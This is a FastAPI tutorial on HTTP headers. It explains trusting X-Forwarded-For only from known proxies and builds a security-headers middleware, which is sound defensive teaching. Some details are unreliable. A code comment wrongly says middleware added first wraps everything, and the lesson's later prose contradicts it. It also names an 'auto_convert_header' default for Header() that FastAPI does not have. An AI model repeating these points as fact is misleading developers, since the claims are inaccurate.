


# Lesson 01: HTTP Headers Deep Dive

*Reading every header that crosses the wire, line by line, byte by byte — and writing the security-headers middleware `Boardly` ships in production.*

**You're at the very beginning of Section 02b.**

The HTTP spec is small enough to read in a weekend. The headers that travel on every request and every response are not magic — they are key/value pairs with specific semantics, and almost every production bug that is not a logic bug is a header bug. A misread `X-Forwarded-For`. A missing `Vary: Accept`. A `Content-Security-Policy` that omits a source so the SPA can't load its bundle. A `Strict-Transport-Security` set so low that browsers ignore it. By the end of this lesson, you'll be the engineer on the team who can read a raw HTTP exchange cold and tell which line is wrong. Take your time. Read every header below. Run the curl. Change it. Break it. Fix it.


#http #headers #security #canonical

## Learning Objectives

By the end of this lesson you will be able to:

1. **Classify every HTTP header** as a request header, a response header, or a representation header — and explain why the distinction matters.
2. **Read the headers that matter in modern APIs** without looking them up: `Authorization`, `Content-Type`, `Accept`, `Accept-Encoding`, `Accept-Language`, `Cache-Control`, `ETag`, `If-None-Match`, `If-Modified-Since`, `Range`, `Cookie`, `Set-Cookie`, `Location`, `Retry-After`, `Vary`.
3. **Read the proxy headers** correctly: `X-Forwarded-For`, `X-Forwarded-Proto`, `X-Forwarded-Host`, `Forwarded` (RFC 7239) — and explain why they are a trust boundary, not a source of truth.
4. **Read the security headers** that protect browser clients: `Strict-Transport-Security`, `Content-Security-Policy`, `X-Content-Type-Options`, `Referrer-Policy` — and know which threats each one mitigates.
5. **Write a Starlette middleware** that sets security headers on every response and explains the onion order.
6. **Implement an endpoint that reads request headers safely** — including the trust-boundary check on `X-Forwarded-For`.
7. **Explain why FastAPI's `Header()` parameter is `auto_convert_header=True` by default** and what that means for hyphenated header names.
8. **Recognise the four classic header bugs** — missing `Vary`, leaking `Server`, trusting `X-Forwarded-For` behind no proxy, omitting `Content-Security-Policy` because "we're API-only."

## Prerequisites

Before starting, you need:

- **The HTTP methods/status/headers sketch** — [[02-Web-and-HTTP/Methods-Status-Headers-Content-Types]]. That lesson has the table of which headers do what at a glance. We'll go *much* deeper here, but you should have read the table at least once.
- **Caching and conditional requests** — [[02-Web-and-HTTP/CORS-Caching-Headers-Conditional-Requests]]. The `ETag` / `If-None-Match` / `Cache-Control` deep dive in this lesson reuses vocabulary from that one.
- **Middleware** — [[03-FastAPI-Core/Middleware-and-Request-Order]]. The onion model, `BaseHTTPMiddleware`, the "last added = outermost" rule. The security-headers middleware we write here is a strict application of that pattern.
- **`Annotated`** — [[01-Python-Foundations/Type-Hints-and-Annotations]]. We use `Annotated[str | None, Header()]` throughout.
- **About an hour and a half of focused time.** This lesson is long because the list of headers is long. Skim the table on first read; come back to each header when you actually need it.

**Why we revisit headers when Section 02 already covered them.**

Section 02's headers table is a reference card — enough to recognise a header when you see one. Production engineering requires more: every header has *semantics* (what does it mean?), *syntax* (what is the grammar of its value?), *trust model* (who is allowed to set it?), and *failure mode* (what breaks if you get it wrong?). This lesson is the deep version. Section 02 is the cheat sheet.


## Think Like a Senior Engineer

Before the headers table and the middleware, the mental model. The single reframe in this lesson is: *headers are metadata, not control flow*. The senior reading any header — `X-Forwarded-For`, `Content-Type`, `Content-Security-Policy` — does not ask "what does this header do?" They ask three questions: *who sets it, who reads it, and what does the reader DO with it?* Read this section slowly — every confusion about trust boundaries, every "but the proxy sets it" production bug, every CRLF-injection CVE reduces to one of the three questions below answered badly.

### The reframe: headers as metadata, not control flow

A senior reading `X-Forwarded-For: 203.0.113.7` does not see "the client's IP." They see *metadata attached to the request by someone* — and the question is *who*. The header itself does nothing; it is bytes on the wire. Some *reader* of the header does something with it: the rate-limiter keys on it; the audit log records it; the geo-IP library resolves it; the WAF allow-lists it. If the reader treats the header as ground truth (and the setter was an attacker), the reader is now reading attacker-controlled metadata and acting on it. The bug is not in the header; the bug is in the *reader's* trust model.

This reframe — headers are metadata, not control flow — is what separates a senior engineer from a junior. The junior asks "what does `X-Forwarded-For` mean?" and trusts the answer. The senior asks "in *this* codebase, *who* sets `X-Forwarded-For`, and *what* does my rate-limiter *do* with it?" — and trusts the answer only after verifying both. Every header-bug CVE in the last 20 years has been a senior question answered badly: the `Host` header trusted for password-reset URLs (the 2009 GitHub-style password-reset Host-header attack), the `X-Forwarded-For` trusted unconditionally (the "Acme Billing" rate-limiter bypass in the lesson's Common Mistakes), the `Set-Cookie` value not CRLF-escaped (the response-splitting CVE family, 2005-2015), the `Content-Type` trusted for parser dispatch (the Rails JSON-CSRF class of 2013).

### The senior's three questions before trusting any header

1. **Who sets this header?** The senior draws a 2x2: setter-is-trusted (your proxy, your CDN, your code) vs setter-is-untrusted (any client, any attacker with a `curl`). *Request* headers are always untrusted-by-default (any client can set them); *response* headers are always trusted-by-default (you set them); *proxy* headers (`X-Forwarded-*`, `Forwarded`) are *conditionally* trusted — the trust comes from the TCP peer being a proxy you operate, not from the header itself. The senior's rule: request headers are attacker-controlled until proven otherwise; proxy headers are attacker-controlled *unless* the peer is in your trusted CIDR; response headers are yours.
2. **Who reads this header?** A header that nobody reads is dead bytes. A header that your rate-limiter reads is a trust boundary. A header that the browser reads (a security header: `Strict-Transport-Security`, `Content-Security-Policy`, `X-Content-Type-Options`) is a *policy* — your server sets it, the browser enforces it, no intermediary can be trusted to enforce it (the browser is the only reader that matters). The senior's rule: for every header you set, name the reader; for every header you read, name the setter. If you cannot name the reader of a header you set, you are setting dead metadata; if you cannot name the setter of a header you read, you are reading attacker-controlled bytes and calling them ground truth.
3. **What does the reader DO with it?** This is the question the junior skips. The senior asks: does the reader *log* the header (low risk, but logs leak), *cache-key* on the header (medium risk — a cache miss is one thing, a cache *poison* is another), *control flow* on the header (high risk — `if X-Forwarded-For in allow_list: skip_auth`), or *security policy* on the header (highest risk — `if Sec-Fetch-Site == "cross-site": reject`)? The reader's *action* determines the trust requirement: logging needs a low-trust header; cache-keying needs a header that is not attacker-settable; control-flow needs a header that is verifiably-set by a trusted setter; security policy needs a header that is browser-set and attacker-unforgeable.

### The shape of header trust classes, side by side

| Header class | Setter | Reader | Trust requirement | Example |
|---|---|---|---|---|
| Request header | Client (untrusted) | Your code | None — assume attacker-controlled | `Authorization`, `Accept`, `User-Agent`, `Cookie` |
| Proxy header | Trusted proxy (conditional) | Your code | Verify peer is in trusted CIDR | `X-Forwarded-For`, `X-Forwarded-Proto`, `Forwarded`, `X-Real-IP` |
| CDN header | CDN (conditional) | Your code | Verify peer is the CDN (mTLS or IP allow-list) | `CF-Connecting-IP` (Cloudflare), `True-Client-IP` (Akamai/CF), `X-Azure-Client-IP` (Azure Front Door) |
| Browser-set header | Browser (forbidden to JS) | Your code | None — attacker cannot forge | `Origin`, `Sec-Fetch-Site`, `Sec-Fetch-Mode`, `Sec-Fetch-Dest` |
| Response header | Your code | Client / cache / browser | None (you trust yourself) | `Content-Type`, `Cache-Control`, `ETag`, `Vary` |
| Security-policy header | Your code | Browser (enforces policy) | None (browser is the only reader) | `Strict-Transport-Security`, `Content-Security-Policy`, `X-Content-Type-Options`, `Referrer-Policy` |
| Representation header | Client (request) or your code (response) | Parser / serializer | Verify `Content-Type` matches body | `Content-Type`, `Content-Encoding`, `Content-Length`, `Transfer-Encoding` |

The senior reading this table does not see seven competitors. They see seven *trust classes* — and the same header can be in different classes depending on direction (`Content-Type` is request-untrusted in the request direction and response-trusted in the response direction). The `client_ip()` function in this lesson is the canonical example: it reads a proxy header (`X-Forwarded-For`), verifies the peer (the trust requirement for proxy headers), and falls back to the peer (the trusted-setter value) if the peer is not trusted. The same function applied to a CDN header would verify mTLS or the CDN's IP range; applied to a browser-set header (`Sec-Fetch-Site`), it would need no verification (the browser-set headers are attacker-unforgeable).

### The senior question for every header in the codebase

When you finish `main.py`, walk every `request.headers.get(...)` and `response.headers[...] = ...` in the codebase and ask: *who sets this, who reads this, and what does the reader do with it?* If the answer is "the client sets it, my rate-limiter keys on it, and the rate-limiter skips auth for allow-listed IPs" — you have a CVE. If the answer is "my code sets it, the browser enforces a policy" — you have a security header. If the answer is "the client sets it, my logger records it" — you have a low-risk log entry (but watch for log-injection via CRLF). The same question, applied header by header, scales to a 500-header codebase.

## The Problem

Here's a raw HTTP request, captured from `curl -v`:

```
GET /projects HTTP/1.1
Host: api.boardly.dev
Authorization: Bearer eyJhbGciOi…
Accept: application/json
Accept-Encoding: gzip, br
Accept-Language: en-US,en;q=0.9,fr;q=0.8
User-Agent: boardly-cli/0.4.2
Cookie: flash_message=Project+created
X-Forwarded-For: 203.0.113.7
X-Forwarded-Proto: https
```

And here's the response:

```
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Cache-Control: no-store
Vary: Accept
ETag: "sha256-9f8a…"
Strict-Transport-Security: max-age=63072000; includeSubDomains; preload
Content-Security-Policy: default-src 'self'; frame-ancestors 'none'
X-Content-Type-Options: nosniff
Referrer-Policy: strict-origin-when-cross-origin
Server: boardly/0.4.2
Content-Length: 187
```

Two requests, ten request headers, ten response headers. Each one has a specific job. Some of them — `X-Forwarded-For`, `Strict-Transport-Security`, `Content-Security-Policy` — are *load-bearing for security*. Get one wrong and you ship a CVE. Get the trust model wrong on `X-Forwarded-For` and an attacker can spoof the "real" client IP that your rate-limiter keys on.

The problem this lesson solves: **most FastAPI tutorials teach you how to set a single response header. Almost none of them teach you which headers exist, which ones you must set, which ones you must not trust, and what the browser does when you omit one.**

By the end of this lesson, you'll be able to read the two blocks above cold and tell, for every line, what it means, who set it, who's allowed to set it, and what breaks if it's missing.

**Note — Where headers come from in the ASGI world.**

Every HTTP request that hits your FastAPI app started life as bytes on a TCP socket. Uvicorn (or whatever ASGI server you use) parses those bytes into an HTTP request, then builds the ASGI `scope` dict. Inside that scope, `scope["type"] == "http"`, `scope["method"] == "GET"`, and `scope["headers"]` is a `list[tuple[bytes, bytes]]` of lowercased name/value pairs. Starlette wraps that scope in a `Request` object whose `.headers` attribute is a `Headers` instance — case-insensitive, dict-like, lazy-decoding bytes to strings on access. When you write `request.headers.get("x-forwarded-for")`, Starlette looks up the lowercased key and returns the decoded value. There is no parsing of "header syntax" beyond splitting on `:`; the *value* of a header like `Accept: application/json, text/csv;q=0.9` is a string you have to parse yourself (or hand to `Accept` parsing logic in Starlette's `requests.py`).


## The Code

Here `Boardly` gains two new pieces:

1. A `security_headers` middleware that sets the four browser-side security headers on every response.
2. A `GET /whoami` endpoint that echoes back the request headers the server received — including a *safe* interpretation of `X-Forwarded-For` (only trusting it if the request actually came from our trusted proxy).

Here is the full file we'll write in this lesson. Save it as `boardly/main.py` (or extend your existing one). It's a superset of the `main.py` from [[03-FastAPI-Core/Application-and-Lifespan|Section 03 Lesson 1]] — we add the middleware, the endpoint, and a small `TrustedProxy` helper.

```python
# boardly/main.py
"""Boardly — a small project-management API.

Lesson 02b-1: HTTP headers deep dive — security-headers middleware
and a /whoami endpoint that reads request headers safely.
"""
from __future__ import annotations

from collections.abc import AsyncIterator
from contextlib import asynccontextmanager
from ipaddress import ip_network

from fastapi import FastAPI, Request, Response
from fastapi.responses import JSONResponse
from starlette.types import ASGIApp, Receive, Scope, Send


# --- The set of networks we trust to have set X-Forwarded-*. ---
# In production this is your load balancer / reverse proxy (e.g. AWS ALB,
# Cloudflare, nginx). Empty in dev where there is no proxy.
TRUSTED_PROXY_NETWORKS: tuple[str, ...] = ("10.0.0.0/8", "127.0.0.0/8")
TRUSTED_NETWORKS_PARSED = tuple(ip_network(n) for n in TRUSTED_PROXY_NETWORKS)


def client_ip(request: Request) -> str:
 """Return the real client IP, trusting X-Forwarded-For only when the
 immediate peer is a trusted proxy. Otherwise we fall back to the peer.
 """
 peer = request.client.host if request.client else "127.0.0.1"
 peer_ip = peer # the TCP peer (your load balancer, or the real client)

 # Only trust XFF when the immediate TCP peer is a trusted proxy.
 peer_is_trusted = any(
 ip_address(peer_ip) in net for net in TRUSTED_NETWORKS_PARSED
 ) if _safe_parse(peer_ip) else False

 if peer_is_trusted:
 xff = request.headers.get("x-forwarded-for")
 if xff:
 # XFF is comma-separated; the left-most entry is the original client.
 return xff.split(",")[0].strip()
 return peer_ip


def _safe_parse(addr: str) -> bool:
 from ipaddress import ip_address as _ip
 try:
 _ip(addr)
 return True
 except ValueError:
 return False


# We need ip_address here for the lookup above.
from ipaddress import ip_address # noqa: E402


class SecurityHeadersMiddleware:
 """Pure-ASGI middleware that adds browser-side security headers to
 every response. We use the pure-ASGI form (not BaseHTTPMiddleware)
 because we don't need to read the request body or await the inner app's
 response — we only need to inject headers into the ASGI `send` channel.
 """

 __slots__ = ("app",)

 def __init__(self, app: ASGIApp) -> None:
 self.app = app

 async def __call__(self, scope: Scope, receive: Receive, send: Send) -> None:
 if scope["type"] != "http":
 await self.app(scope, receive, send)
 return

 # Inject our headers into every response. We wrap `send` so that when
 # the inner app emits the `http.response.start` message (which carries
 # the status code and headers), we get a chance to add ours.
 injected_headers: list[tuple[bytes, bytes]] = [
 (b"strict-transport-security", b"max-age=63072000; includeSubDomains"),
 (b"x-content-type-options", b"nosniff"),
 (b"referrer-policy", b"strict-origin-when-cross-origin"),
 (b"content-security-policy", b"default-src 'self'; frame-ancestors 'none'"),
 ]

 async def send_wrapper(message: dict) -> None:
 if message["type"] == "http.response.start":
 headers: list[tuple[bytes, bytes]] = list(message["headers"])
 # Only set a header if the inner app didn't already set it.
 existing = {name.lower() for name, _ in headers}
 for name, value in injected_headers:
 if name not in existing:
 headers.append((name, value))
 message = {**message, "headers": headers}
 await send(message)

 await self.app(scope, receive, send_wrapper)


@asynccontextmanager
async def lifespan(app: FastAPI) -> AsyncIterator[None]:
 print("Boardly starting up…")
 app.state.version = "0.4.2"
 yield
 print("Boardly shutting down…")


app = FastAPI(
 title="Boardly",
 version="0.4.2",
 lifespan=lifespan,
)

# Middleware order: the LAST added is the OUTERMOST.
# We want security headers applied to *every* response, including 404s and
# 500s, so we add it first — it will wrap everything else.
app.add_middleware(SecurityHeadersMiddleware) # pure-ASGI form


@app.get("/whoami")
async def whoami(request: Request) -> JSONResponse:
 """Echo back the request headers we received, plus the resolved client IP."""
 # `request.headers` is case-insensitive (Starlette normalises to lowercase
 # internally). We surface the original-ish casing for readability.
 received = {k: v for k, v in request.headers.items()}
 return JSONResponse(
 {
 "client_ip": client_ip(request),
 "method": request.method,
 "path": request.url.path,
 "headers_received": received,
 },
 headers={"Cache-Control": "no-store", "Vary": "Accept"},
 )
```

That's the file. About 110 lines including docstrings. Run it. Curl it. Read the response. Then come back and we'll go through it line by line — and through every header that crosses the wire.

## Line-by-Line Deep Dive

This section is the heart of the lesson. Read it slowly. The headers come back in every other lesson in this section — cookies in Lesson 2, `Vary` and `Accept` in Lesson 5, `Authorization` in Lesson 7. Get them right once.

### Lines 1–8: Module docstring and `from __future__`

```python
"""Boardly — a small project-management API.

Lesson 02b-1: HTTP headers deep dive — security-headers middleware
and a /whoami endpoint that reads request headers safely.
"""
from __future__ import annotations
```

**What it does:** Declares the module's purpose and enables PEP 563 deferred-evaluation of annotations (`from __future__ import annotations`).

**Why `from __future__ import annotations`?** Because in this lesson we use string annotations like `str | None` in function signatures where the runtime would otherwise try to *evaluate* the type at function-definition time. With `from __future__ import annotations`, all annotations become strings until something like `typing.get_type_hints()` resolves them. On Python 3.12 — which is what we target — `str | None` works at runtime anyway (PEP 604 landed in 3.10), so the import is technically redundant. We keep it because it lets us use forward references (e.g. `Request` before it's imported) without quoting, and because it matches the rest of the `Boardly` codebase.

**PEP 604 — `X | Y` syntax for unions.**

Before Python 3.10 you had to write `Optional[str]` (which is `Union[str, None]`). PEP 604 made `str | None` legal syntax. On Python 3.12 (our target), it works at runtime. On older Pythons, `from __future__ import annotations` lets the *parser* accept it (since the annotation isn't evaluated). We're on 3.12, so it's belt-and-braces.


### Lines 10–14: Imports

```python
from collections.abc import AsyncIterator
from contextlib import asynccontextmanager
from ipaddress import ip_network

from fastapi import FastAPI, Request, Response
from fastapi.responses import JSONResponse
from starlette.types import ASGIApp, Receive, Scope, Send
```

**What it does:** Pulls in `AsyncIterator` (for the lifespan signature), `asynccontextmanager` (the decorator), `ip_network` (for trusted-proxy parsing), the FastAPI and Starlette pieces we need.

**Why each:**

- `AsyncIterator` from `collections.abc` (not `typing`) is the modern form, used in the lifespan return annotation.
- `asynccontextmanager` decorates `lifespan` so its `yield` becomes the ASGI startup/shutdown boundary.
- `ip_network` parses CIDR strings like `"10.0.0.0/8"` into objects we can test membership against.
- `Request` is Starlette's HTTP request wrapper; `Response` is here because we'll mention it (we don't construct it directly — we use `JSONResponse`).
- `JSONResponse` is the response subclass that JSON-serialises a dict and sets `Content-Type: application/json`.
- `ASGIApp`, `Receive`, `Scope`, `Send` are the four type aliases Starlette defines in `starlette.types`. They let us annotate our pure-ASGI middleware properly.

**Tip — Why pull types from `starlette.types` instead of typing them as `Any`?**

Because the ASGI spec is a contract. `Scope` is `Mapping[str, Any]` at the typing level, but annotating with `Scope` documents *what* the parameter is — the ASGI scope dict. Same with `Receive` (a callable returning awaitables of message dicts) and `Send` (a callable accepting message dicts). If you ever migrate to a typed-ASGI library (like `asgiref`), these aliases line up. Treating ASGI as `Any` everywhere is how production apps end up with `scope["user_id"]` lookups that fail at runtime.


### Lines 17–20: The trusted-proxy networks

```python
TRUSTED_PROXY_NETWORKS: tuple[str, ...] = ("10.0.0.0/8", "127.0.0.0/8")
TRUSTED_NETWORKS_PARSED = tuple(ip_network(n) for n in TRUSTED_PROXY_NETWORKS)
```

**What it does:** Declares the set of TCP peer addresses we trust to have set `X-Forwarded-*` headers correctly, and pre-parses them at import time.

**Why pre-parse?** Calling `ip_network("10.0.0.0/8")` on every request would burn ~5 µs of CPU per request for no reason. Doing it once at import time is a tiny optimisation — and more importantly, it surfaces a configuration error (a malformed CIDR) at *import* time, not at first-request time. If the env var had a typo, your deploy fails CI rather than failing in prod.

**Warning — `127.0.0.0/8` in `TRUSTED_PROXY_NETWORKS` is for dev only.**

In production, your reverse proxy is on a private subnet (`10.x`, `172.16–31.x`, `192.168.x`) or a peered VPC. Including `127.0.0.0/8` here means "if the immediate TCP peer is `localhost`, trust `X-Forwarded-For`." That's fine for `uv run uvicorn boardly.main:app --reload` against a `curl` from your own machine that adds an `X-Forwarded-For` header. In production, *remove* the loopback entry, or an attacker hitting your public IP directly could set `X-Forwarded-For: 1.2.3.4` and your rate-limiter would key on `1.2.3.4`.


### Lines 23–36: `client_ip()` (the safe interpretation of `X-Forwarded-For`)

```python
def client_ip(request: Request) -> str:
 """Return the real client IP, trusting X-Forwarded-For only when the
 immediate peer is a trusted proxy. Otherwise we fall back to the peer.
 """
 peer = request.client.host if request.client else "127.0.0.1"
 peer_ip = peer # the TCP peer (your load balancer, or the real client)

 peer_is_trusted = any(
 ip_address(peer_ip) in net for net in TRUSTED_NETWORKS_PARSED
 ) if _safe_parse(peer_ip) else False

 if peer_is_trusted:
 xff = request.headers.get("x-forwarded-for")
 if xff:
 return xff.split(",")[0].strip()
 return peer_ip
```

**What it does:** Returns the client IP address that should be used for rate-limiting, audit logging, and geo-IP. Crucially, it only trusts `X-Forwarded-For` *if the immediate TCP peer is a trusted proxy*.

**Why this dance?** Because `X-Forwarded-For` is a *request header*. Any HTTP client can set it. If your app is exposed to the internet directly (no proxy in front) and you trust `X-Forwarded-For` unconditionally, an attacker can send `X-Forwarded-For: 1.2.3.4` on every request and bypass an IP-based rate limiter trivially. The fix is: only trust the header when you can prove (via the TCP peer) that it was set by your proxy.

**Danger — The most common deployment bug in the wild.**

"We deployed FastAPI behind nginx, the rate limiter keys on `X-Forwarded-For`, an attacker figured out they can send `X-Forwarded-For: 1.2.3.4` and bypass it." The fix is *always* the same: only trust `X-Forwarded-For` when the TCP peer is in your trusted-proxy list. If you're using Starlette's `Request.client.host`, that's the *peer* — the load balancer in front of you, or the real client if there is no load balancer.


**Line `peer = request.client.host if request.client else "127.0.0.1"`** — `request.client` is a `tuple[str, int] | None` (host, port). It's `None` only when the ASGI server didn't populate it (rare; mostly in tests). The fallback is the loopback address so the function never raises.

**Line `peer_is_trusted = any(...)`** — we check whether the parsed peer IP is in any of the trusted networks. The `_safe_parse()` guard prevents an exception if `peer` is somehow unparseable (it shouldn't be — it's the TCP peer — but defensive).

**Line `if peer_is_trusted:`** — the gate. If the peer is *not* trusted, we ignore `X-Forwarded-For` entirely and return the peer. If the peer *is* trusted (it's our proxy), we look at the header.

**Line `xff.split(",")[0].strip()`** — `X-Forwarded-For` is a comma-separated list, with the left-most entry being the original client and each subsequent entry being a proxy that appended the address it received from its peer. We take the left-most because that's the original client. (Some configurations also append the immediate peer; we trust *only* the left-most here. A more paranoid version verifies the chain from right-to-left against the trusted-proxy list — see [[11-Authentication-and-Security/Threat-Model-First]].)

**Student asks: why not use `request.headers.get("x-forwarded-for")` unconditionally?**

Good instinct, but it's the bug we just warned about. `X-Forwarded-For` is *user input*. Even when your reverse proxy sets it correctly, a malicious client connecting *directly* to your origin (bypassing the proxy) can send whatever they want. The only signal you have that the value is trustworthy is "the TCP peer of *this* connection is my proxy." No proxy → don't trust the header. Yes proxy → trust the header *and* the chain. This is one of those rules that looks obvious in hindsight but accounts for a real share of CVEs.


### Lines 38–47: `_safe_parse()` and the late `ip_address` import

```python
def _safe_parse(addr: str) -> bool:
 from ipaddress import ip_address as _ip
 try:
 _ip(addr)
 return True
 except ValueError:
 return False


from ipaddress import ip_address # noqa: E402
```

**What it does:** `_safe_parse` returns `True` if `addr` is a parseable IP, `False` otherwise. The late `ip_address` import makes it available to `client_ip()` above.

**Why the late import?** It's a small style choice: we want `ip_address` available in `client_ip()`, but `_safe_parse()` needs a private copy. Putting both at the top of the file is fine — we keep them grouped here because they're conceptually together (one parses, one validates). The `# noqa: E402` tells the linter "yes, I know imports should be at the top; this is intentional." In real `Boardly` code we'd move both to the top. We're showing the late-import pattern because it's a legitimate technique when an import has a heavy cost or a circular-dependency implication.

**Tip — `ip_address` vs `ip_network`.**

`ip_address("10.0.0.5")` returns an `IPv4Address`. `ip_network("10.0.0.0/8")` returns an `IPv4Network`. The `in` operator works between them: `ip_address("10.0.0.5") in ip_network("10.0.0.0/8")` is `True`. This is *far* faster and *far* more correct than string-prefix matching like `peer.startswith("10.")`, which matches `10.example.com.attacker.com` if `peer` ever becomes a hostname.


### Lines 50–87: `SecurityHeadersMiddleware` (the pure-ASGI form)

```python
class SecurityHeadersMiddleware:
 """Pure-ASGI middleware that adds browser-side security headers to
 every response. We use the pure-ASGI form (not BaseHTTPMiddleware)
 because we don't need to read the request body or await the inner app's
 response — we only need to inject headers into the ASGI `send` channel.
 """

 __slots__ = ("app",)

 def __init__(self, app: ASGIApp) -> None:
 self.app = app

 async def __call__(self, scope: Scope, receive: Receive, send: Send) -> None:
 if scope["type"] != "http":
 await self.app(scope, receive, send)
 return

 injected_headers: list[tuple[bytes, bytes]] = [
 (b"strict-transport-security", b"max-age=63072000; includeSubDomains"),
 (b"x-content-type-options", b"nosniff"),
 (b"referrer-policy", b"strict-origin-when-cross-origin"),
 (b"content-security-policy", b"default-src 'self'; frame-ancestors 'none'"),
 ]

 async def send_wrapper(message: dict) -> None:
 if message["type"] == "http.response.start":
 headers: list[tuple[bytes, bytes]] = list(message["headers"])
 existing = {name.lower() for name, _ in headers}
 for name, value in injected_headers:
 if name not in existing:
 headers.append((name, value))
 message = {**message, "headers": headers}
 await send(message)

 await self.app(scope, receive, send_wrapper)
```

**What it does:** Implements a pure-ASGI middleware that injects four security headers into every HTTP response, *without* using Starlette's `BaseHTTPMiddleware`. The injected headers are: `Strict-Transport-Security`, `X-Content-Type-Options`, `Referrer-Policy`, `Content-Security-Policy`.

**Why pure-ASGI and not `BaseHTTPMiddleware`?** [[03-FastAPI-Core/Middleware-and-Request-Order|Section 03 Lesson 5]] covers the difference in detail. The short version: `BaseHTTPMiddleware` is convenient (you get a `Request` and a `Response` to play with) but it has to fully read the response into memory before forwarding, which breaks streaming responses and adds overhead. Pure-ASGI middleware operates directly on the `(scope, receive, send)` triple — it's faster, it works with `StreamingResponse`, and it forces you to understand what ASGI actually is.

We don't need to read the request body or the response body. We just need to inject bytes into the `http.response.start` message. Pure-ASGI is the right tool.

**Line `__slots__ = ("app",)`** — opt-out of per-instance `__dict__`. Saves a tiny amount of memory per app instance and prevents accidental attribute writes. Standard for small middleware classes.

**Line `def __init__(self, app: ASGIApp) -> None:`** — every ASGI middleware has this signature: it wraps an inner `app` (which is itself an ASGI callable). The pattern is "middleware as a callable that takes the next callable."

**Line `if scope["type"] != "http":`** — non-HTTP ASGI events (`lifespan`, `websocket`) get passed straight through unchanged. We don't want to add security headers to a WebSocket handshake response (and `lifespan` doesn't have headers at all).

**Lines `injected_headers: list[tuple[bytes, bytes]] = [...]`** — ASGI headers are *bytes*, not strings. The lowercased name and the value are both `bytes`. Starlette's `Headers` class converts to strings on access; we bypass that for speed.

**Line `async def send_wrapper(message: dict) -> None:`** — this is the heart of the middleware. We don't replace `send`; we wrap it. When the inner app sends `http.response.start` (the first ASGI message for an HTTP response, which carries status code and headers), we intercept that message, append our headers if they're not already set, and forward the modified message to the original `send`.

**Line `existing = {name.lower() for name, _ in headers}`** — the set of header names already present. We compute it once. The `.lower()` is defensive — ASGI requires lowercased names, but a custom inner app might violate that, and we don't want to duplicate `Strict-Transport-Security` because someone set `strict-transport-security` differently.

**Line `if name not in existing:`** — we *don't* override. If a route or middleware closer to the app explicitly set a header, it stays. This is important for endpoints that need a *more permissive* CSP (e.g., a per-route CSP that allows a specific CDN origin).

**Line `message = {**message, "headers": headers}`** — we build a *new* message dict rather than mutating the existing one. The inner app may be holding a reference to its own message; we don't want to surprise it. Immutable replacement is the rule.

**Example — What `http.response.start` actually looks like.**

```python
{
"type": "http.response.start",
"status": 200,
"headers": [
(b"content-type", b"application/json; charset=utf-8"),
(b"content-length", b"187"),
],
"trailers": False,
}
```
That's it. Status code and a list of `(bytes_name, bytes_value)` pairs. After `http.response.start`, the inner app sends one or more `http.response.body` messages with the actual body bytes (chunked if streaming). We touch only the start message.


### Lines 90–94: Lifespan

```python
@asynccontextmanager
async def lifespan(app: FastAPI) -> AsyncIterator[None]:
 print("Boardly starting up…")
 app.state.version = "0.4.2"
 yield
 print("Boardly shutting down…")
```

This is unchanged from [[03-FastAPI-Core/Application-and-Lifespan|Section 03 Lesson 1]]. The lifespan owns process-level resources; in this lesson we only stash a version string. Later lessons (3 and 4) will add the session-expiry sweep and the CSRF secret here.

### Lines 96–103: `app = FastAPI(...)` and middleware registration

```python
app = FastAPI(
 title="Boardly",
 version="0.4.2",
 lifespan=lifespan,
)

app.add_middleware(SecurityHeadersMiddleware)
```

**What it does:** Constructs the `FastAPI` instance and adds our security-headers middleware.

**Why the comment about order?** [[03-FastAPI-Core/Middleware-and-Request-Order|Section 03 Lesson 5]] established the rule: "last added = outermost." That means `app.add_middleware(SecurityHeadersMiddleware)` here, called *first*, makes it the *innermost* user middleware — it runs after any future middlewares we add. We want it to wrap *every* response, including 404s and exception responses, so we add it first; whatever middlewares we add later (request-id, timing, CSRF) will be outer to it and will run *before* it on the request path and *after* it on the response path.

The reason is that Starlette's `add_middleware` *prepends* to the middleware stack. The last middleware you add becomes the outermost wrapper. So if you call:

```python
app.add_middleware(SecurityHeadersMiddleware) # added first → innermost user middleware
app.add_middleware(RequestIdMiddleware) # added second → outer
app.add_middleware(TimingMiddleware) # added third → outermost
```

Then the call order on the request path is: `TimingMiddleware → RequestIdMiddleware → SecurityHeadersMiddleware → router`. The security headers middleware runs *closest to the router*, which means it sees the response *last* (after timing and request-id have already started streaming). To make sure security headers are applied to *every* response, including the responses that timing and request-id themselves emit (e.g., a 413 from a max-body-size middleware), we'd actually want security-headers to be *outermost* — added *last*.

**Warning — Middleware order is genuinely subtle. Test it.**

